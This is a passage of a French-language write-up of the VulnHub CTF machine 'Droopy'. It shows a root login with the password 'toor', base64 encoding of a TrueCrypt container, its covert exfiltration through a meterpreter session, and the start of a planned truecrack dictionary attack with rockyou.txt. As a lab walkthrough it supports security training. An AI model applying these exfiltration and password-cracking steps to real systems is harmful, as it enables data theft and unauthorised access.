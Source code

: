 On se reconnecte en root et... nom d'un chien (Droopy !) le CTF n'est pas terminé !

```console
www-data@droopy:/var/www/html$ su - root
su - root
Password: toor

root@droopy:~# ls
ls
dave.tc
```

## Attaque par dictionnaire sur un conteneur TrueCrypt avec Truecrack

Un dernier challenge nous attend : ```dave.tc``` est un [conteneur TrueCrypt](https://fr.wikipedia.org/wiki/TrueCrypt) qui, a priori, doit contenir un message de félicitations de la part de l'auteur du CTF. Mais avant cela, il faut trouver le mot de passe de ce conteneur ! Exfiltrons discrètement ce conteneur à l'aide du meterpreter.

```console
root@droopy:~# base64 dave.tc > /tmp/dave.b64
base64 dave.tc > /tmp/dave.b64
root@droopy:~# exit
exit
logout
www-data@droopy:/var/www/html$ exit
exit
exit
exit
meterpreter > download /tmp/dave.b64 /root/droopy/dave.b64
[*] Downloading: /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 1.00 MiB of 6.75 MiB (14.81%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 2.00 MiB of 6.75 MiB (29.61%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 3.00 MiB of 6.75 MiB (44.42%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 4.00 MiB of 6.75 MiB (59.22%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 5.00 MiB of 6.75 MiB (74.03%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.00 MiB of 6.75 MiB (88.83%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.75 MiB of 6.75 MiB (100.0%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] download   : /tmp/dave.b64 -> /root/droopy/dave.b64
```

De retour sur notre machine, on enclenche le processus inverse.

```console
root@blinils:~# cat dave.b64 | base64 -d > dave.tc
root@blinils:~# file dave.tc
dave.tc: data
```

Sur le site VulnHub, knightmare nous a donné deux indices :

_```Grab a copy of the rockyou wordlist```_ et _```It's fun to read other people's email.```_

Attaquer bille en tête avec [__truecrack__](https://korben.info/comment-cracker-un-conteneur-truecrypt.html) et le dictionnaire [rockyou.txt](https://wiki.skullsecurity.org/Passwords) ne semble pas la meilleure option : il y a plus de 14 millions de mots de passe à tester, et après cinq minutes, seulement 1000 mots de passe ont été testés. Si mes calculs sont exacts, il faudrait donc 70 000 minutes pour tous les tester, soit 48 jours... le deuxième indice doit donc avoir son importance.
